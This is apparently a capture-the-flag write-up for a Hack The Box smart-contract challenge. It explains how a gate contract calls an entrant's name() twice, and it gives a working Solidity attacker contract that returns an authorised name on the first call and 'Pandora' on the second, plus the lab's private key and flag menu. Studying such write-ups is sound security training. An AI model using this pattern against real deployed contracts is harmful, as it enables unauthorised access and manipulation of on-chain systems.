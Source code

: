 Environment
IP1=159.65.62.241:31090
IP2=159.65.62.241:32094
Connect to IP2 to get the connection details:

$ nc 165.232.108.200 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xaed670f921dc66aa949185dac3a38f78638807bb0932b0340473203431678123
Address         :  0xD91878cAF52230be2645862A639487953a04Dadd
Target contract :  0x5337a93f98ae379b878fB4969Ec9370B83CF5618
Setup contract  :  0x7B59De9FdAd4b0A4B0366677A971A41E24132DBF
Win Condition (Study the Smart Contract)
In the Setup contract we see that in order to solve this challenge, the last person to enter a high security gate needs to be named "Pandora".

function isSolved() public view returns (bool) {
  return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
}
The Smart Contract ensures, that we shoot these shots in order (first, second, third). Info modifier

pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {

    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
After studying the Smart Contact in detail, we find the vulnerability is most likely in the enter function:

function enter() external {
  Entrant _entrant = Entrant(msg.sender);

  require(_isAuthorized(_entrant.name()), "Intruder detected");
  lastEntrant = _entrant.name();
}
The entrant is set to a value we have control over. It is derived from msg.sender. In Solidity msg.sender means the "The entity that sent me this request". So we can manipulate the _entrant.name() by creating a Smart Contact that interacts with the HighSecurityGate Contract:

pragma solidity ^0.8.18;

# Copied from HighSecurityGate
interface Entrant { 
    function name() external returns (string memory);
}

contract Attacker is Entrant {
  bool public firstCheck = true;
  string public _name = "Orion";

  function name() external returns (string memory){
    return _name;
  }

}
To call the already deployed Smart Contract, I followed the example from here: https://solidity-by-example.org/calling-contract/.

Lets add a method with a parameter pointing to the TARGET contract and call enter() on it:

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

...

function callSecGate(HighSecurityGate _gate) external {
  _gate.enter();
}
With this we can access the Gate as "Orion".

Prepare the Exploit
If we look at the HighSecurityGate again, we notice that _entrant.name() is called two separate times.

require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
Once to check if the entrant is authorized and once again to save the name of the last person that entered the gate. Notice that there is no check if _entrant.name() returns the same value twice. This is our attack vector >:D.

We adjust our Attacker smart contact so name return something different the second time it is called.

pragma solidity ^0.8.18;

interface Entrant {
    function name() external returns (string memory);
}

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Attacker is Entrant {
  bool public firstCheck = true;

  function name() external returns (string memory){
    if (firstCheck){
      firstCheck = false;
      return "Orion";
    }
    return "Pandora";
  }

  function callSecGate(HighSecurityGate _gate) external {
    _gate.enter();
  }

  // Just in case
  function reset() external {
   firstCheck = true;
  }
}
Execute the Plan
To compile and deploy our Attacker Contact, I used the Remix VSCode extension.

![](use-compile-and-deploy.png)

First we connect to the RPC IP given to us by HTB (IP1 from above):

![](set-rpc-connection.png)

Then we compile the Smart Contract and deploy it on the blockchain.

![](compile-and-deploy-in-remix.png)

To execute our attack, we supply the target address to our callSecGate() method.

![](call-attack-function.png)

Result:
![](attack-transaction-ok.png)

With this we can collect our reward:

nc 159.65.62.241 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{...}